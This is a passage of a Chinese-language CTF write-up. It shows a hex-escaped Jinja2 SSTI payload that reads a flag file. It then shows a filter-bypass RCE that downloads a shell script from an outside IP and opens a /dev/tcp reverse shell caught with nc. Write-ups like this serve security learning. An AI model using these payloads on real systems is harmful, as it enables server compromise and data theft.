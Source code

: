 网页端得到：

```python
['bin', 'boot', 'dev', 'etc', 'home', 'lib', 'lib64', 'media', 'mnt', 'opt', 'proc', 'root', 'run', 'sbin', 'srv', 'sys', 'tmp', 'usr', 'var', 'flag_in_h3r3_52daad', '.dockerenv', 'app', 'start.sh']
```

得到 flag 的文件路径为 `/flag_in_h3r3_52daad`，再构造 payload

```python
{{''['__class__']['__base__']['__subclasses__']()[166]['__init__']['__globals__']['__builtins__']['eval']('open(\'/flag_in_h3r3_52daad\').read()')}}
```

对字符串进行 ASCII 编码绕过，有：

```python
{{''['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[166]['\x5f\x5f\x69\x6e\x69\x74\x5f\x5f']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('\x6f\x70\x65\x6e\x28\x27\x2e\x2e\x2f\x66\x6c\x61\x67\x5f\x69\x6e\x5f\x68\x33\x72\x33\x5f\x35\x32\x64\x61\x61\x64\x27\x29\x2e\x72\x65\x61\x64\x28\x29')}}
```

网页端得到 flag：

```plain
flag{01089939-9f12-4c7a-a50d-76f626381e39}
```

### So Baby RCE Again

访问靶机网址，WebShell 过滤了关键字 `bash` 和 `curl`，可使用两点号` `` `绕过。

构造 payload `bash -i &> /dev/tcp/47.97.152.130/54188 0>&1` 作为 `cmd` 参数发现并不行，没找到原因。

尝试在公网服务器上挂载脚本，并在靶机上 `curl`

```bash
curl -o shell.sh 47.97.152.130:54180
```

即传参 `?cmd=cu``rl%20-o%20shell.sh%2047.97.152.130:54180`

在公网服务器上使用 nc 监听

```shell
[root@Cnkid03~]$ nc -lvp 54188
```

然后在靶机上

```bash
bash shell.sh
```

即传参 `?cmd=bas``h%20shell.sh`

回到我们的公网服务器，发现已经拿到 shell.

进行常规的查找 flag 操作，易得 flag 存在于根目录中，进行 cat 操作

```shell
www-data@out:/$ cat ffll444aaggg
cat: ffll444aaggg: Permission denied
```
